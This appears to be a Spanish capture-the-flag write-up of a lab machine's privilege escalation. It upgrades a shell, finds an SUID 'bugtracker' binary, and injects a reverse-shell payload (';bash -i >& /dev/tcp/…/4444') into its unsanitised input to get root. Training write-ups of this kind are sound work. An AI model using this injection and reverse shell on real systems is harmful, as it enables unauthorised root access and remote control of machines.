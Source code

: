 Para poder usar `su` correctamente, se convierte la shell en una interactiva con:

```bash 
script /dev/null -c bash
``````

Después de ejecutar eso, ya se permite el uso de `su robert`, y se introducen las credenciales descubiertas .

![](../img/05e0b369adfe21db4d3e458c2001c8e0.png)

✅ Acceso conseguido como **usuario robert**.

#### 4. 🔍 Enumeración de privilegios especiales (SUID)

Usando:

```bash 
find / -group bugtracker 2>/dev/null
``````

Se encuentra el binario `/usr/bin/bugtracker` 
Este archivo pertenece al grupo `bugtracker`, del cual `robert` forma parte, y tiene permisos **SUID activados**

```bash 
-rwsr-xr-- 1 root bugtracker 8729 ... /usr/bin/bugtracker
```

Esto significa que **el binario se ejecuta con permisos de `root`**, sin importar qué usuario lo lance.

#### 5. ⚠️ Vulnerabilidad en el uso de `cat` dentro del binario

El binario solicita un ID de bug y luego hace `cat` sobre un archivo con ese nombre, sin sanear la entrada. Esto permite inyección de comandos .

```bash 
/usr/bin/bugtracker
```

#### 6. ⚙️ Inyección para ejecutar reverse shell como root

Se inyecta una reverse shell como payload:

```bash 
;bash -i >& /dev/tcp/10.10.16.20/4444 0>&1
```

Con el listener activo en el puerto 4444 (`nc -nlvp 4444`), se recibe conexión como **root** 

#### 7. 📦 Obtención de la flag de root

Una vez con acceso como root, se navega a `/root/root.txt` y se obtiene la **flag final**
